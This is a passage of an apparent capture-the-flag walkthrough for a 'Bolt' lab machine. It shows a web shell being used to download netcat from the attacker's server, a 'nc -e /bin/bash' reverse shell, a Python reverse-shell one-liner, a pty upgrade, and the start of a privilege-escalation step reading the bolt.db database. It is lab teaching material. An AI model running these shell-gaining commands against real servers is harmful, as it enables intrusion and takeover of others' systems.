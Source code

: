 If you are using Kali Linux, the netcat installed supports the -e parameter (execute). Using this parameter we can start a shell upon connecting.

The e parameter is often removed from netcat in a lot of the Linux distributions, because it can be exploited to gain a shell. :-)

First we link the installed netcat to the current directory on our attacking machine:

`ln -s $(which nc) .`

Then we start a simple web server to serve some files, make sure the files you want to serve are in the current directory:

This will listen on port 8000 on you local machine: `python3 -m http.server 8000`

Using the c.php file we just dropped, we can browse to `http://serverip/files/cmd.php?c=wget http://yourip:8000/nc` to
download a linux netcat to the server, you will see in your web server if it has been retrieved:

This file is dropped in the same directory as our c.php. We make this nc executable like this: `http://serverip/files/cmd.php?c=chmod 755 nc`

Now start a netcat listener on your own machine, listening on a free port (we use 4444 here)

`ncat -nv -l -p 4444`

When it is uploaded and made executable, we can run it like this: `http://serverip/files/cmd.php?c=./nc -e /bin/bash yourip 4444`

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

If all goes well, you will see a connection coming in from the bolt server:
(Don’t forget to do the python pty dance, to make sure you have a shell with PTY’s allocated, some commands, especially sudo, require a PTY shell to run)

`python -c 'import pty;pty.spawn("/bin/bash")'`

What is the username of the user running the web server?

`www-data`

## Task 6 Priv esc

In the app/database directory you will find the bolt.db SQLite3 database

`file bolt.db` bolt.db: SQLite 3.x database, last written using SQLite version 3020001

Open database:

![](https://i.imgur.com/Fajrmfg.png)

This contains a lot of tables:

![](https://i.imgur.com/fcS9AJM.png)

We list the bolt user database, like this:
